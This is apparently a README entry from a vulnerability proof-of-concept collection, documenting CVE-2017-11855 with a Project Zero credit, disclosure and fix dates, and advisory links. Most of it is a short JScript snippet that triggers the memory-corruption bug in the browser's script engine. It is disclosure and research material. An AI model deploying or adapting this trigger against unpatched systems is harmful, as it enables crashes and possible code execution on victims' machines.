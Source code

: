 # CVE-2017-11855

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">
var x = new URIError(new Array(), undefined, undefined);
String.prototype.localeCompare.call(x, new Date(0, 0, 0, 0, 0, 0, undefined));
Array.prototype.slice.call(1);
</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11855)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1378)
